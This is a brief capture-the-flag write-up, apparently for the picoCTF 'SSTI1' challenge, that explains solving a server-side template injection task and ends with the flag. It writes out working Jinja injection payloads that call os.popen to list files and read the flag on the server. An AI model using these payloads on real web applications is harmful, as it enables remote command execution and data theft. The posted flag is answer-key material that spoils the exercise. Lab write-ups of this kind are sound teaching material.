


## SSTI1
 

**Description**

I made a cool website where you can announce whatever you want! Try it out! I heard templating is a cool and modular way to build web apps! Check out my website here!

**Write-up**

Simple SSTI vulnerability. Tested template injection with the usual payload `{{8*8}}`. 

Did not bother testing which template engine is, guessed it is `jinja`.
 
Used the payload {{config.__class__.__init__.__globals__['os'].popen('ls').read()}} to find files in local directory:

Using same process from above, printed the flag with the command {{config.__class__.__init__.__globals__['os'].popen('cat flag').read()}}.

**Solution**

Flag: picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_f5438664}

[back](./../..)